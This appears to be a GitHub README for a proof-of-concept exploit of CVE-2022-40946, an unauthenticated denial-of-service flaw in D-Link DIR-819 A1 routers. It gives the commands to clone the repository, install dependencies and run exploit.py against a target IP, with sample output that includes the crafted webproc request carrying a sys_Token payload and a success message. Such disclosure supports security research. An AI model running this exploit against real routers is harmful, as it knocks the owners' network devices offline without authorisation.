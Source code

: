 # CVE-2022-40946 Exploit: Unauthenticated Denial of Service in DLink consumer DIR 819 A1 routers

## Exploit 

### Fetch the sources
```bash
$ git clone https://github.com/whokilleddb/dlink-dir-819-dos
$ cd dlink-dir-819-dos
$ pip install -r requirements.txt
```

### Run the exploit
```bash
$ ./exploit.py -i 192.168.0.1                         
[+] DLink DIR-819 DoS exploit
[i] Address to attack: 192.168.0.1
[i] Using SSL:         False
[i] Request Timeout:   30s
[i] Buffer Length:     19
[i] Payload:           http://192.168.0.1/cgi-bin/webproc?getpage=html/index.html&errorpage=html/error.html&var:language=en_us&var:menu=basic&var:page=Bas_wansum&var:sys_Token=6307226200704307522
[+] Exploit Successful!
``` 
